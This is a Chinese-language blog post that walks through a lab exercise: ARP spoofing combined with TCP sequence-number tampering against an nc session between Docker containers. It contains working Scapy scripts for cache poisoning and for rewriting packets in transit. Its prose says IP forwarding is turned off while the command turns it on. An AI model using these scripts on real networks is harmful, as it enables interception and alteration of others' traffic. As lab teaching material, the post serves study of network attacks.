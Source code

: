 ```yaml
---
layout:     post
title:      arp欺骗+TCP序列号攻击
subtitle:   arp欺骗+TCP序列号攻击
date:       2023-04-04
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - linux
---
```

# arp欺骗+TCP序列号攻击

`1.实验环境`

任意两台相互能通信的机器HostA、HostB+一台攻击机HostM。

本文在Ubuntu上创建3个docker。

IP_A=“192.168.60.2”

IP_M=“192.168.60.3”

IP_B=“192.168.60.4”

MAC_A=‘02:42:c0:a8:3c:02’

MAC_M=‘02:42:c0:a8:3c:03’

MAC_B=‘02:42:c0:a8:3c:04’

`2.攻击对象`

攻击nc连接中，A向B发送数据的过程。

```
HostA nc监听333端口：nc -lv 333
HostB nc连接333端口：nc 192.168.60.2 333
```

`3.攻击目的`

将A向B发送的数据篡改为固定的字符串'U000011222_shandianchengzi\n'。

`4.最终效果`
![1](https://github.com/xiongcan941/xiongcan941.github.io/blob/master/img/2023-04-04%2020-21-58%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png "1")

## 实验步骤

### 实验环境搭建

利用docker搭建3台ubuntu服务器，并且指定ip，使其能相互ping通

1.搭建网卡

docker network create --subnet=192.168.60.0/24 --gateway=192.168.60.1 docker-intranet

2.指定网卡和IP

sudo docker run -it --name=HostA --hostname=HostA --net=docker-intranet --ip=192.168.60.2 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostB --hostname=HostB --net=docker-intranet --ip=192.168.60.4 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostM --hostname=HostM --net=docker-intranet --ip=192.168.60.3 --privileged "ubuntu" /bin/bash

并在其中安装nc和python环境

```
sed -i s@/archive.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

sed -i s@/security.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

apt-get clean

apt-get update

apt install net-tools

apt-get install vim

apt-get -y install netcat-traditional

update-alternatives --config nc
```

### ARP欺骗
首先，关闭ip转发：

```
sysctl net.ipv4.ip_forward=1
```

然后，对HostA、B进行ARP欺骗，在HostM上运行ARP欺骗程序：

```
from scapy.all import *
from time import *

IP_A    = "192.168.60.2"
IP_B    = "192.168.60.4"
MAC_M     = "02:42:c0:a8:3c:03"

print("SENDING SPOOFED ARP REQUEST......")

ether = Ether()
ether.dst = "ff:ff:ff:ff:ff:ff"
ether.src = "02:42:c0:a8:3c:03"

arp = ARP()
arp.psrc  = IP_B
arp.hwsrc = MAC_M
arp.pdst  = IP_A
arp.op = 1
frame1 = ether/arp
arp2 = ARP()
arp2.psrc = IP_A
arp2.hwsrc = MAC_M
arp2.pdst = IP_B
arp2.op = 1
frame2 = ether/arp2
while 1:
  sendp(frame1)
  sendp(frame2)
  sleep(5)
```

![2](https://github.com/xiongcan941/xiongcan941.github.io/blob/master/img/2023-04-04%2020-32-06%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png  "2")

并在AB间建立nc即时对话。

HostA运行：nc -lp 333

HostB运行：nc 192.168.60.2 333

### TCP序列号攻击

Hostm作为中间人，记录HostA发给HostB的Seq号、HostB发给HostA的Ack号，HostM用A的字符串长度计算给HostA的ACK包中的Seq和Ack，用’U000011222_shandianchengzi\n’的长度计算给HostB的Seq号，就可以伪造正确的序列号。

```
from scapy.all import *
IP_A="192.168.60.2"
IP_B="192.168.60.4"
MAC_A='02:42:c0:a8:3c:02'
MAC_M='02:42:c0:a8:3c:03'
MAC_B='02:42:c0:a8:3c:04'
temp={'SEQ':0,'ACK':0,'LEN':0,'ACK2':0}
def spoof_pkt(pkt):
  try:
    if(pkt.src==MAC_M):
      return
    if(pkt[IP].src==IP_A and pkt[IP].dst==IP_B):
      pkt.src=MAC_M
      pkt.dst=MAC_B
      temp['LEN']=len(pkt[TCP].load)
      temp['SEQ']=pkt[TCP].seq
      if(temp['ACK2']): #new
        pkt[TCP].seq=temp['ACK2'] #new
      temp['ACK']=pkt[TCP].ack
      pkt[IP].len=79
      pkt[TCP].load='U000011222_shandianchengzi\n'
      pkt.show()
    elif(pkt[IP].src==IP_B and pkt[IP].dst==IP_A):
      pkt.src=MAC_M
      pkt.dst=MAC_A
      if(pkt[TCP].seq==temp['ACK']):
        temp['ACK2']=pkt[TCP].ack #new
        pkt[TCP].ack=temp['SEQ']+temp['LEN']
    del(pkt.chksum)
    del(pkt[TCP].chksum)
    #pkt.show()
    sendp(pkt)
  except Exception as e:
    print("[-] Error = "+str(e))
    if(pkt.type!=2054 and str(e)!="load"):
      pkt.show()
    try:
      sendp(pkt)
    except Exception as e2:
      pass

f= "host "+IP_A+" and host "+IP_B+" and tcp"
pkt = sniff(filter=f,iface='eth0', prn=spoof_pkt)
```

![3](https://github.com/xiongcan941/xiongcan941.github.io/blob/master/img/2023-04-04%2020-32-57%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png  "3")

现象
![4](https://github.com/xiongcan941/xiongcan941.github.io/blob/master/img/2023-04-04%2020-21-58%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png  "4")
